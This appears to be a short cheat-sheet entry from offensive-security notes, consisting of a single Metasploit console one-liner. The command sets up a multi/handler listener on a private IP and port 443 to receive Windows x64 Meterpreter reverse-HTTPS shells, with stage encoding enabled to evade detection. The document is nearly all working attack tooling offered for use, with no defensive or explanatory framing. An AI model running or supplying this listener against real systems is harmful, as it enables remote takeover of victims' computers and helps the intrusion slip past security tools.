 # One Liner

## msfconsole one liner

```text
sudo msfconsole -q -x "use multi/handler; set LHOST 10.110.0.66; set lport 443; set payload windows/x64/meterpreter/reverse_https; set StageEncoder x64/zutto_dekiru; set EnableStageEncoding true; exploit -j"
```

